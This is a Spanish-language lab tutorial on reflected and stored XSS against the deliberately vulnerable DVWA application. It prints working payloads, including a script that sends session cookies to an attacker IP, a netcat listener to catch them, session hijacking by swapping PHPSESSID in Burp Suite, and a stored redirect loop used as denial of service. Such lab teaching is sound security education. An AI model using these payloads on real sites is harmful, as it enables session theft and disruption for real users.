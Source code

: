 # Empecemos con las pruebas  XSS

# Empecemos con las pruebas  XSS

Muy bien para empezar necesitaremos tener la maquina de DWWA abierta. prodemos tener la maquina atraves de  tryhackme o por docker.

Vamos a iniciar por XSS reflect, acordarse que en la maquina de DWWA de poner el modo de seguridad en nivel low para que funcione las pruebas que vamos a hacer.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled.png)

Luego nos iremos al apartado XSS Reflected, aqui haremos primero una prueba muy simple.

 

```bash
<script>alert ("hola soy un ataque xss") </script> 
```

Si lo ponemos en el cuador de texto de “what`s your name?” vamos a ver que ocurre.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%201.png)

Como podemos ver nos suelta, una alerta que nos da el código que hemos introducido.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%202.png)

También podemos hacerlo un poco mas interesante por ejemplo que nos saque la IP del servidor.

```bash
<script>alert(document.domain)</script>
```

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%203.png)

Con esto el atacante también podría hacer un ataque directamente a la ip del servidor.

Vamos a hacerlo aun mucho mas interesante porque vamos a coger de una forma “prestada” una cookie de sesión.

vamos a utilizar este codigo.

Este código lo que hace es que estamos utilizando código javascrit, y que le estamos creando un nuevo  objeto de la clase image, luego esta imagen con la propiedad src apunta a la URL especifica que incluye a donde le vamos a querer que envié la cookie y lo que queremos enviar que es la cookie de sesión que se aloja en document.cookie

```bash
<script>new Image().src="http://192.168.1.155/bogus.php?output="+document.cookie;</script>   
```

Acordarse cambiar la ip por la maquina de vuestro kali, y poner el kali en modo bridge.

ahora vamos a dejar nuestro kali preparado y levantado para que empiece a escuchar y nos llegue la cookie de sesión.

para dejarlo en modo escucha, en una terminal ponemos 

```bash
nc -vnlp 80
```

y una vez alguien le de click a la url o le demos al boton submit enviara la cookie.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%204.png)

Una vez esto abriremos nuestro burpsuite. abriremos nuestro burpsuite para poder interceptar las peticiones de nuestro navegador al servidor y viceversa y poder llegar a modificar la cookie. esto lo que hará es que podamos tener acceso a la pagina de DVWA sin haber iniciado sesión.

 Pondremos el burpsuite a interceptar paquetes dandole a la opcion “intercept is on”

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%205.png)

Como podemos ver en esta imagen no estoy logueado en ningún momento en DVWA

Ahora si nosotros escribimos y queremos que nos redirija a esa url que existe de la maquina.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%206.png)

el burpsuite nos saltara 

y debemos de modificar el apartado de la cookie por la nueva cookie

Antigua

---

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%207.png)

Nueva

---

Solo cambiamos el PHPSESSID= ques donde va a ir la cookie.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%208.png)

esto para guion

listo ya tendríamos acceso si haber logueado sesión anteriormente

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%209.png)

Al Obtener la cookie de sesión el atacante.

Bueno ya que creo que con esto os a picado la curiosidad vamos a pasar al XSS stored el almacenado, no tiene mucho misterio ya que lo que ocurre es que el código malicioso se quedaría guardado en el servidor es decir que cada vez que se vuelva a recargar la pagina se va a ejecutar y quien intente acceder a esa pagina también va a ejecutar el código malicioso.

 Asi que nos vamos al apartado de XSS Stored 

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2010.png)

Recordad que si por algun casual en DVWA no os deja escribir muchas letras, en inspeccionar elemento se puede cambiar la longitud máxima de caracteres.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2011.png)

Volviendo al XSS stored el codigo practicamente es el mismo que el XSS reflect solo que de por si se guarda. para hacer que cada vez que una persona que recargue la pagina le salga un alert.

```bash
<script>alert("hola esto es un xss stored")</script>
```

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2012.png)

ahora la cosa esque esto se va a repetir continuamente cada vez que se recargue la pagina.

igual que anteriormente con xss reflect podemos tambien que renvie cookie de sesión pero lo que vamos a hacer es imaginar que el atacante quiere denegar el servicio a esta pagina. una de las formas para hacer esto podria ser con este codigo malicioso

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Como veis nos sigue redirigiendo a mi sitio [malicioso.com](http://malicioso.com) 🙂

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2013.png)

ya lo demas es exactamente igual que el XSS reflect